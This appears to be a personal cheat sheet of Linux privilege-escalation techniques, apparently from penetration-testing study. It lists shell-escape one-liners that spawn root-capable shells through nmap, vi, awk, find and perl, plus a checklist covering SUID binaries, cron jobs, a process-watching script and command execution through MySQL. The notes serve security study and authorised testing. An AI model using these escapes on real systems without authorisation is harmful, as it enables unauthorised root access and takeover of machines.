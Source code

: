 


# Environment escapes

nmap --interactive
vi   ---> :!bash
vi   ---> :set shell=/bin/bash:shell
awk  ---> awk 'BEGIN {system("/bin/sh")}'
find ---> find / -exec /usr/bin/awk 'BEGIN {system("/bin/sh")}'\;
perl ---> perl -e 'exec "/bin/bash";'




# Technique

## Linux

* kernel exploit
* sudo -l 
* history and environment(env,bashrc,bashprofile)
* Linenum.py
* crontabs and systemd timers
* SUID binaries
* look for running process using `pspy` and try to get some unusual process/crons running or use the script below:
```
#!/bin/sh

#Loop by line
IFS=$'\n'

old_process = $(ps -eo command)

while true;do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process")
	sleep 1
	old_process=$new_process
done

```
* ps aux , look for services running as root like is mysql is running as root, and u have its creds, login and `xp_cmdshell` or `sys_exec('ls'); `
* check for config file, if mysql is there look for its config file, if some cms is there like prng monitor or drupal, google where is its config file, data files are stored and check there, these above steps will mostly get next step.
* netstat -antup (listening ports and services there) [ also look for services that are listening on 127.0.0.1 instead of 0.0.0.0]

=== idhar tak ni mila toh see what users, try to guess password , google karo
